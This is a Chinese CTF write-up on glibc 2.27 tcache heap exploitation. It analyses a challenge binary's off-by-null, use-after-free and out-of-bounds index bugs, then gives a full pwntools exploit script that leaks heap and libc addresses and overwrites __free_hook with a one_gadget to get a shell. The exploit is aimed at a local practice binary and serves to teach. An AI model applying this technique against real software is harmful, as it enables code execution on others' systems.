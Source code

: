 #pwn:tcache学习
##1.简介
libc2.27以后的版本中引入了tcache机制，使得堆的安全管理更加薄弱，在这里记录一下我在CTF比赛中学习到的tcache相关的知识和技巧。

##2.例题
简要介绍以下这个二进制文件，形式为一个正常堆题，但使用的是libc2.27，因此考察的是对tcache进行利用

分析一下程序功能
####add
![](./pic/add.png)

函数的功能为申请一段0XF8的空间，并给读入指定的size和输入。
在这里，get_input()函数有一个off by null漏洞

####delete
![](./pic/delete.png)

函数的功能为free一个指定的list，但由于其没有对指针清零，有一个UAF漏洞。同时，注意到index有负数越界的漏洞，但其实这个并没有很大的作用

####modify
![](./pic/modify.png)

函数的功能为对指定的list进行修改，这里同样也有负数越界，但是很难在程序段和bss段中找到合适的地址

####show
![](./pic/show.png)

这里对指定的list进行打印，同样也有负数越界

####利用思路

#####leak思路
因为delete时没有清零，因此我们可以通过show一个free之后的chunk，从而leak出堆地址或libc地址

![](./pic/libc.png)

#####getshell思路
1.我们可以通过off by null漏洞进行unsorted bin attack，利用堆合并的时候检查PREV-IN-USE位，覆盖正在使用的chunk，从而构造UAF。

在这一步需要精心构造，此处需要使用7个tcache bin和3个unsorted bin

![](./pic/prepare.png)

填满tcahce的链表,由于之前已经有一个，此处只需要填6个

![](./pic/fill_tcache.png)

构造合并的unsorted bin，使第3个bin变成的prev size变为0x200

![](./pic/unsorted_bin_attack.png)

利用off by null

![](./pic/off_by_null.png)

重新调整chunk顺序，构造UAF

![](./pic/uaf.png)

在构造UAF后，通过modify函数修改chunk使其能malloc到任意地址，这里，由于我们只有堆地址和libc地址，因此我们可以malloc到\__free_hook()中，然后再修改\_\_free\_hook()为one\_gadget地址，使得free(chunk)函数会执行system(chunk)，从而getshell

![](./pic/getshell.png)

2.我们可以通过off_by_null覆盖tcache\_prethread结构体中0x100链表的地址，使其能够直接覆盖堆地址，从而进一步控堆，使其malloc到\_\_free\_hook()中,成功getshell,这一步暂时没有实现

####完整writeup

	from pwn import *
	
	r = process("./pwn")
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
	elf = ELF("./pwn")
	
	def add(size,content):
	 r.recvuntil("command:\n")
	 r.sendline("1")
	 r.recvuntil("size:\n")
	 r.sendline(size)
	 r.recvuntil("content:\n")
	 r.sendline(content)
	
	def delete(index):
	 r.recvuntil("command:\n")
	 r.sendline("2")
	 r.recvuntil("index:\n")
	 r.sendline(str(index))
	
	def show(index):
	 r.recvuntil("command:\n")
	 r.sendline("3")
	 r.recvuntil("index:\n")
	 r.sendline(str(index))
	
	def modify(index,content):
	 r.recvuntil("command:\n")
	 r.sendline("4")
	 r.recvuntil("index:\n")
	 r.sendline(str(index))
	 r.recvuntil("content:\n")
	 r.send(content)
	
	#chunk_addr = 0xF8
	#leak heap addr
	payload = "Hello"
	add("20",payload)#0
	add("20",payload)#1
	add("20",payload)#2
	add("20",payload)#3
	add("20",payload)#4
	add("20",payload)#5
	
	delete(1)
	delete(2)
	delete(3)
	add("20","")
	modify(1,"A")
	show(1)
	
	heap_addr = u64(r.recv(6) + 2*'\x00') - 0x441
	success("heap_addr = %x",heap_addr)
	#base_addr = heap_addr - 0xc56000
	#success("guess_base_addr = %x", base_addr)
	
	add("20",payload)#2
	add("20",payload)#3
	add("20",payload)#6
	add("20",payload)#7
	add("20",payload)#8
	add("20",payload)#9
	
	delete(1)
	delete(2)
	delete(3)
	delete(4)
	delete(5)
	delete(6)
	delete(7)
	delete(8)
	
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("20","")
	modify(8,"AAAAAAAA")
	show(8)
	r.recvuntil("AAAAAAAA")
	libc.address  = u64(r.recv(6) + 2*'\x00') - 0x3eb000 - 0xca0
	success("libc_addr = %x",libc.address)
	free_hook = p64(libc.symbols['__free_hook'])
	one_gadget = libc.address + 0x4f322
	
	#reconstruct
	delete(0)
	delete(5)
	delete(6)
	delete(7)
	delete(4)
	delete(3)
	delete(9)
	delete(2)
	delete(1)
	delete(8)
	
	for i in range(7):
	 add("20",str(i) +'- tcache')
	
	for i in range(3):
	 add("20",str(i) + "- unsorted")
	
	for i in range(6):
	 delete(i)
	#free second unsorted
	delete(8)
	#unsorted
	delete(7)
	
	add("248","overflow_it")
	delete(6)
	
	delete(9)
	
	for i in range(7):
	 add("20",str(i) +'- tcache')
	
	add("20","fill up")
	
	add("20", '9 - next')
	
	delete(1)
	delete(2)
	delete(0)
	delete(9)
	success("free_hook = %x", libc.symbols['__free_hook'])
	
	add("16", "haha") #0
	modify(0, p64(libc.symbols['__free_hook']))
	
	add("32", '/bin/sh') # 1
	add("16", "hh")
	modify(2,p64(one_gadget))
	
	# system("/bin/sh\x00")
	delete(1)
	
	r.interactive()